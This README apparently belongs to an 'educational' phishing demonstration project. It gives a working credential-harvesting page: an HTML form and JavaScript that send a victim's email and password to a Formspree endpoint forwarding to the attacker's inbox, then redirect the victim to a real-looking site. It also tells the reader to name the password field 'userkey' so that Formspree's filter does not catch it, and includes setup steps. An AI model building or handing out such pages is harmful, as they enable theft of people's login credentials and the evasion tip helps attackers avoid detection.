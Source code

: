 **THIS DEMONSTRATION IS STRICTLY INTENDED FOR EDUCATIONAL PURPOSES ONLY. THE USE OF THIS TECHNIQUE FOR MALICIOUS PURPOSES IS ILLEGAL AND UNETHICAL.**

## Overview 

Phishing is a form of cyber attack where an attacker impersonates a legitimate entity or website to trick individuals into providing sensitive information, such as login credentials or personal details. This demonstration simulates a basic phishing scenario in which user input is captured through a malicious form.

This implementation utilizes [Formspree](https://www.formspree.io), a form-handling service that collects submitted form data and sends it to the attacker’s email. While this demonstration is intentionally simple, attackers typically create more sophisticated and convincing websites that mimic legitimate services.

## How it works

### What the victim sees

The page collects input from the user, in this case an email and password. 

```
<form id="phishy-form" action="https://formspree.io/f/{form_id}" method="POST">

  <label>Email:</label>
  <input type="email" name="email" required />

  <label>Password:</label>
  <input type="text" name="userkey" required />

  <button id="my-form-button">Submit</button>
</form>
```

Notice the `name` attribute in the password input is assigned the value `userkey`. This is because Formspree will detect and block suspicious valuse like `password`.

### Behind the scenes

When the user submits the form, the data is sent to Formspree, where it is forwarded to the attacker’s designated email address. After the form is submitted, the victim is redirected to the website they presumably think they are logging into.

```
document
    .getElementById("phishy-form")
    .addEventListener("submit", async function (e) {
      e.preventDefault();
      let formData = new FormData(this);

      let response = await fetch("https://formspree.io/f/{form_id}", {
        method: "POST",
        body: formData,
        headers: { Accept: "application/json" },
      });

      if (response.ok) {
        window.location.href = "https://www.example.com/";
      } 
    });
```

### Setup

1. Visit [Formspree](https://www.formspree.io) and create a new form endpoint. You will be provided with a unique URL that will receive the form submissions.

2. In the provided [HTML code](TackleBox/Demo/index.html), replace `<your formspree url>` with the Formspree URL you received. 

### Try it

Save the HTML file and run it locally on your machine. Enter some random info into form (e.g., me@example.com & password123), and click "Submit." Check the email associated with your Formspree account; you should see the data you submitted.